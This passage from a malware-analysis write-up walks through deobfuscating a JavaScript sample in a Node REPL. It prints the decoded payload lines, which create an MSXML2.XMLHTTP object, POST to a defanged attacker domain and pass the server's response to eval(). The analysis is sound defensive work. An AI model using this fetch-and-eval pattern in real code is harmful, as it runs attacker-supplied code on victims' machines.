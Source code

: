 Moving on to the next important piece of the puzzle, the deobfuscator function.   

### Deobfuscator Function And Beyond

I cleaned and notated the deobfuscator function enough to understand the basic behavior, but I will admit, there are some sections in which I did not spend a lot of time in the weeds. Specifically, the two functions defined within `deobfuscator` on lines 68 and 80, and their respective for-loops. In this case, it was enough to understand they perform "some action" on the arguments passed to them. No deep dive into the specific for-loop shenanigans necessary.  
With that said, I have provided comments as to my understanding of the deobfuscator function in the code screenshot, if interested. The quick and dirty explanation: using the `numeric_arg`, the function grabs a value from the `get_array` array. It modifies the `array_value` variable using a more complex series of functions, and returns a value.  

Now we can finally get to the payload finale, the real important stuff -- lines 50, 51, 52, and 122.
```JS
var activex_object = new ActiveXObject(call_deobf_2('7FM9', 0x2a1) + call_deobf_2('@f0l', 0x2a3));
activex_object[call_deobf_2('@f0l', 0x293)](call_deobf_2('7#tp', 0x28a), call_deobf_2('Yu2X', 0x2a0) + call_deobf_2('Fo89', 0x2ab) + call_deobf_2('HSRT', 0x2a9) + call_deobf_2('jlDe', 0x29f) + call_deobf_2('oRu9', 0x287), ![]), 
activex_object[call_deobf_2('HC5I', 0x285) + call_deobf_2(')X0A', 0x2a7)](call_deobf_2('O)P#', 0x2aa) + call_deobf_2('HSRT', 0x2ac) + call_deobf_2('@9eY', 0x28e), '1');
```

Starting with the first two lines, we can see a variable of type `ActiveXObject` is being created, but the argument passed in is the result of two function calls. How can we determine what this value may be?  

Since I know the purposes of the `get_array` and `deobfuscator` functions are "benign" (not directly executing malicious code), I can start up a Node REPL (Read-Eval-Print-Loop) session to play with the JavaScript dynamically. To do this, simply enter `node` in the command prompt, provided Node.js is installed on the device.  

Once here, I pasted the two functions into REPL, as it will save functions for the duration of the session.  
Then, I pasted the entire anonymous, self-invoking function into REPL as well, since I know all it does it rotate the array. Perfect, now all we need to do is paste lines 54-59 (a function which calls `deobfuscator` I named `call_deobf_2`) into REPL and I can start manually deobfuscating.

{{< image src="images/node_example.png" alt="node_example" position="center" >}}

So, now we know line 50 is actually
```JS
var activex_object = new ActiveXObject('MSXML2.XMLHTTP')
```
and is how to define an XMLHTTP object, which provides client-side protocol support for communication with HTTP servers.

Performing the same action, the remaining three lines are (intentionally defanged)
```JS
51: activex_object['open']('POST', 'https://e9171.asset.tradingvein[.]xyz/subscribeEvent', ![]), 
52: activex_object['setRequestHeader']('Upgrade-Insecure-Requests', '1');
122: activex_object['send']('0fLZsUtGNjQj6htMDKjCPOqLbq6CaK8DLSt7/ur7qQ=='), this['eval'](activex_object['responseText']);
```
We've done it! Line 51 initializes a non-asynchronous POST request to a new domain and line 52 sets the Upgrade-Insecure-Requests header to 1, so HTTP will not be used as a fallback if HTTPS fails. Finally, line 122 sends a base64 encoded string to the domain and executes what is returned in the responseText.
